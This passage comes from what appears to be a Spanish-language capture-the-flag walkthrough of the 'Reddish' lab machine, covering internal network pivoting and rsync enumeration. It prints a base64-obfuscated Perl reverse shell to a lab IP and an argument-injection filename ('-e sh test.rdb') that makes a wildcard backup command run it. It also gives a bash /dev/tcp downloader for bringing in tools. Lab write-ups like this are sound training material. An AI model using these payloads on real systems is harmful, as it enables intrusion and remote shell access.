 ```bash
> echo 'cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuNCI7JHA9Nzk3OTtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsnCg==' | base64 -d > test.rdb
> touch -- '-e sh test.rdb'
```

Obteniendo:

![Untitled](/assets/img/Reddish/Pasted image 20240313123440.png)

Dirigiéndonos a la ruta `/backup/` y analizando el contenido de este archivo nos percatamos que existe un servicio en el puerto `873`

![Untitled](/assets/img/Reddish/Pasted image 20240313120309.png)

Realizando un `ping` a `backup` nos responde la IP `172.20.0.3` por lo que disponemos de una nueva IP para enumerar

![Untitled](/assets/img/Reddish/Pasted image 20240327211500.png)

Dibujando el diagrama de red hasta el momento tenemos:

![Untitled](/assets/img/Reddish/Pasted image 20240327211921.png)

Actualmente somos el usuario `www` el cual dispone de las IP's `172.19.0.3` y `172.20.0.3`

### Enumeración `rsync`

Enumerando el servicio `rsync` se tiene:

![Untitled](/assets/img/Reddish/Pasted image 20240313131253.png)

Vamos a transferir el `socat` a través de `curl` como la máquina no dispone nativamente de curl lo podemos realizar utilizando una función disponible en [command line - how to download a file using just bash and nothing else (no curl, wget, perl, etc.) - Unix & Linux Stack Exchange](https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et)

```bash
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```
